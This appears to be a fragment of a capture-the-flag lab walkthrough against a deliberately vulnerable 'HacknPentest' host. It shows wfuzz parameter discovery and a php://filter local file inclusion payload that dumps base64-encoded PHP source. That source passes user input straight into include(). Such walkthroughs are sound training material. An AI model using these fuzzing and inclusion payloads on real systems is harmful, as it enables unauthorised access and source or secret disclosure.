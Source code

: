 

└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hh 197   http://192.168.53.128/image.php?secrettier360=FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.53.128/image.php?secrettier360=FUZZ
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                        
=====================================================================

000000257:   200        13 L     43 W       328 Ch      "dev"                                          

Total time: 0.581366
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 1635.802


└─$ curl http://192.168.53.128/image.php?secrettier360=dev
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>hello,

now you are at level 0 stage.

In real life pentesting we should use our tools to dig on a web very hard.

Happy hacking. 
</html>



└─$ curl http://192.168.53.128/image.php?secrettier360=php://filter/convert.base64-encode/resource=image.php
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>PGh0bWw+Cjx0aXRsZT5IYWNrblBlbnRlc3Q8L3RpdGxlPgo8Ym9keT4KIDxpbWcgc3JjPSdoYWNrbnBlbnRlc3QucG5nJyBhbHQ9J2hucCBzZWN1cml0eScgd2lkdGg9IjEzMDAiIGhlaWdodD0iNTk1IiAvPjwvcD48L3A+PC9wPgo8L2JvZHk+Cjw/cGhwCiRzZWNyZXQgPSAkX0dFVFsnc2VjcmV0dGllcjM2MCddOwppZihpc3NldCgkc2VjcmV0KSkKCnsKIGVjaG8iZmluYWx5IHlvdSBnb3QgdGhlIHJpZ2h0IHBhcmFtZXRlciI7CiBlY2hvICI8YnI+PGJyPjxicj48YnI+IjsKIGluY2x1ZGUoIiRzZWNyZXQiKTsKCn0KCj8+CjwvaHRtbD4K</html>
                                                                                                                